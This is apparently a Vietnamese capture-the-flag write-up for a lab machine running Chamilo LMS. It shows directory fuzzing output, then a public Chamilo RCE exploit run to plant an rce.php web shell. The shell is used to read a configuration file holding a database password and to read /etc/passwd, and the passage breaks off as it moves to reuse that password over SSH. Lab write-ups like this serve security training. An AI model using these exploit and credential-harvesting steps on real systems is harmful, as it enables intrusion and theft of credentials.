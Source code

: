 ```
robots.txt              [Status: 200, Size: 748, Words: 75, Lines: 34, Duration: 37ms]
.scrutinizer.yml        [Status: 200, Size: 2610, Words: 768, Lines: 90, Duration: 39ms]
src                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 36ms]
src/                    [Status: 200, Size: 932, Words: 64, Lines: 17, Duration: 38ms]
terms.php               [Status: 200, Size: 16127, Words: 4075, Lines: 320, Duration: 76ms]
.travis.yml             [Status: 200, Size: 4260, Words: 564, Lines: 119, Duration: 36ms]
user.php                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 44ms]
vendor                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 37ms]
vendor/                 [Status: 200, Size: 17167, Words: 1049, Lines: 99, Duration: 46ms]
vendor/composer/installed.json [Status: 200, Size: 544121, Words: 223094, Lines: 14386, Duration: 37ms]
?view=log               [Status: 200, Size: 19364, Words: 4910, Lines: 353, Duration: 58ms]
web                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 36ms]
web/                    [Status: 200, Size: 1310, Words: 88, Lines: 19, Duration: 37ms]
web.config              [Status: 200, Size: 5780, Words: 1119, Lines: 107, Duration: 37ms]
?wsdl                   [Status: 200, Size: 19356, Words: 4910, Lines: 353, Duration: 58ms]
:: Progress: [78884/78884] :: Job [1/1] :: 1058 req/sec :: Duration: [0:01:17] :: Errors: 2 ::
```
Trong số nhiều cái đáng chú ý thì có cái `README.md` là đáng chú ý nhất 

<img width="1401" height="601" alt="image" src="https://github.com/user-attachments/assets/800976a8-33b6-49f2-a92e-606a16795708" />

Và tôi biết được website này sử dụng công nghệ là `Chamilo 1.11.x`, bằng cách search google thì tôi tìm được 1 lỗi dẫn đến RCE là [đây](https://www.exploit-db.com/exploits/52083):

<img width="1126" height="492" alt="image" src="https://github.com/user-attachments/assets/c038dc28-7cfa-4af0-a366-4c28fc7d449b" />

Tôi lấy đoạn code về và khai thác:
```
❯ python3 exploit.py "http://lms.permx.htb/" "id"
[+] File uploaded successfully!
[+] Access the shell at: http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php?cmd=
[+] Command Output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Tôi tìm được 1 số thông tin nhạy cảm trong các file bao gồm username và password ở `/var/www/chamilo/app/config/configuration.php`
```
❯ python3 exploit.py "http://lms.permx.htb/" "cat /var/www/chamilo/app/config/configuration.php" | grep "configuration"
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
$_configuration['db_manager_enabled'] = false;
$_configuration['root_web'] = 'http://lms.permx.htb/';
$_configuration['root_sys'] = '/var/www/chamilo/';
$_configuration['url_append'] = '';
```
Cơ mà lúc tôi mở file `/etc/passwd` thì không có username là `chamilo`:
```
❯ python3 exploit.py "http://lms.permx.htb/" "cat /etc/passwd" | grep "bash"
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```
Dùng mật khẩu cho user `mtz` để ssh vào:
